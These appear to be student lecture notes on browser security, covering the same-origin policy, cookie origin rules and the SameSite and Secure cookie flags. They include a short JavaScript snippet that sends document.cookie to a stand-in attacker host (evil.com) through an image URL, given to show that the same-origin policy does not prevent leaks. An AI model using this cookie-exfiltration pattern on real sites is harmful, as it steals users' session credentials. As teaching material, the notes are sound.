# Web Security

## Web Security Model
- Safely browse te web in the presence of web attackers
    - Browsers are like operating systems
    - Need to isolate different activities



## Same Origin Policy (SOP)
- Origin: isolation unit/trust boundary on the web
    - (scheme, domain, port) triple derived from URL
    - Fate sharing: if you come from same places you must be authorized
- SOP Goal: isolate content of different origins
    - <ins>Confidentiality</ins>: Script contained in evil.com should not be able to read data in bank.ch page
    - Integrity: script from evil.com should not be able to modify the content of bank.ch page





## Scripts
- __CAN__ load scripts from across origins
    -- Libraries!
- Scripts execute with privileges of the page
- Page can see source via func.toString()



## Images
- Browser renders cross-origin images, but SOP prevent page from inspecting individual pixels
- But page can see other properties, like img.width



# SOP for Cookies
- DOM SOP: origin is a (scheme, domain, port)
- Cookies use a separate definition of origin
    - Cookie SOP: ([scheme], domain, path)
    - (https, cseweb.ucsd.edu, classes/fa23/cse127-a)
- Server can declare domain property for any cookie
    - Set-cookie: ```
    <cookie-name>=<cookie-value>; Domain=<domain-value>```




- Can't set cookies for these public suffixes(?)

## How do we dicide to send coookies?



### Another Example
- What happens when your bank includes Google Analytics Javascript (a tracker) in their web page? Can that code access your Bank's authentication cookie?
    - __Yes!__ Javascript is running with origin's privileges. Can access document.cookie in DOM

- Also, SOP doesn't prevent leaking data:
```js
const img = document.createElement("./WebSecurity/image");
img.src = "https://evil.com/?cookies=" + document.cookie;
document.body.appendChild(img);
```



## Partial Solutions: SameSite Cookies
```js
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
SameSite=Strict;
```
- Strict: A same-site cookie is only sent when the request originates from the same site (top-level domain)
- Lax: Send cookie on top-level "safe" navigations (even if navigating cross-site)
- None: send cookie without taking context into account



## Partial Solutions: Secure Cookies
- A secure cookie is only sent to the server with an encrypted request over the HTTPS protocol

